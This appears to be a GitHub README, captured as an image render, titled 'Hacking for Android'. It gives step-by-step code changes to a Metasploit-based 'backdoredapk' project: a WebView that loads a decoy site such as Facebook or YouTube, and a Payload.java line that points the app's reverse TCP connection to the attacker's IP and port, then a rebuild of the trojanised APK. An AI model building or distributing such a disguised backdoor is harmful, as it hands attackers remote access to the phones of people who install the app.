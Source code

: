 # Hacking for Android

We need to add this code to the file: *hbox-android000011-ramixter* $\rightarrow$ *app* $\rightarrow$ *src* $\rightarrow$ *main* $\rightarrow$ *res* $\rightarrow$ *layout* $\rightarrow$ **activity_main.xml**

```xml
<WebView  
    android:id="@+id/webview"
    android:layout_width="fill_parent"
    android:layout_height="fill_parent" />
```

We need to add this code to the file: *hbox-android000011-ramixter* $\rightarrow$ *app* $\rightarrow$ *src* $\rightarrow$ *main* $\rightarrow$ *java* $\rightarrow$ *stage* $\rightarrow$ *metasploit* $\rightarrow$ *com* $\rightarrow$ *backdoredapk* $\rightarrow$ **MainActivity.java**:

```java
import android.webkit.WebView;
```

```java
setContentView(R.layout.activity_main);
        WebView webView = (WebView) findViewById(R.id.webview);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.loadUrl("<MY_LINK>");
```

and we will have to replace <MY_LINK> with the link we want to which the application redirects us, for example: https://www.facebook.com/, https://www.youtube.com/, https://www.google.com/, etc.

We need to change this line in the file: *hbox-android000011-ramixter* $\rightarrow$ *app* $\rightarrow$ *src* $\rightarrow$ *main* $\rightarrow$ *java* $\rightarrow$ *stage* $\rightarrow$ *metasploit* $\rightarrow$ *com* $\rightarrow$ *backdoredapk* $\rightarrow$ **Payload.java**:

```java
public static final String URL = "ZZZZtcp://<MY_IP>:<PORT>"
```

> this line refers to our attacking machine, for example Kali or Linux, where `<MY_IP>` will be the ip address of my attacking machine. And `<PORT>` will be the port that we have configured.

**Once the changes are finished we will proceed to compile the APK again.**
